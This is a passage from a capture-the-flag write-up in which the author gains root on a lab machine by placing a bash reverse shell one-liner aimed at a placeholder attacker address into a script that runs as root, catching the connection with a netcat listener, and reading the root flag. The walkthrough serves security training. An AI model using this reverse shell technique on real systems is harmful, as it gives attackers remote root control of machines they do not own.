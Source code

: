 
Let's start by creating a netcat listener on our end (attacker's machine)
```bash
┌──(thelant3rn㉿Kali)-[~/CTFs/easy_peasy]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

We add the following reverse shell script:
`bash -i >& /dev/tcp/YOUR_IP_ADDRESS/SAME_PORT_AS_LISTENER 0>&1` into the script, save it, wait for it to run for our listener to receive the incoming connection.
![[Pasted image 20230830114427.png]]

Shortly after we have a reverse shell with root access.

```bash
┌──(thelant3rn㉿Kali)-[~/CTFs/easy_peasy]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.18.4.213] from (UNKNOWN) [10.10.193.198] 47740
bash: cannot set terminal process group (2683): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# whoami
whoami
root
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Aug 29 10:35 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt  
cat .root.txt
flag{**********REDACTED************}
```

Looking around we find the hidden `.root.txt` flag.
- 2.8 What is the root flag?**✓**

Having found the root flag we have now completed the CTF :)